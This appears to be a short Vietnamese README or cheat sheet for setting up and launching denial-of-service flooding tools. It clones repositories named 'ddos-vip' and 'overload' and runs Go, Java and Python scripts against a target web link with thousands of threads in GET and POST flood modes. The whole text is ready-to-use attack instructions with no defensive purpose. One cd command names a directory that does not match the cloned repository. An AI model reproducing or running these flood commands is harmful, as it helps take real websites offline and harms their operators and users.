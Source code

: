 # Setup termux
pkg install golang
pkg install openjdk-17
# Setup gg cloud
sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/User-xquyen/ddos-vip
cd toolddos-vippro
# Chế độ Get sài cho web https://
go run ddosbyXQ.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post sài cho web http://
go run ddosbyXQ.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web

java ddosbyXQ.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập │ ├───TIME:1000 │ └───THREADS:20000 │ └───URL:link web
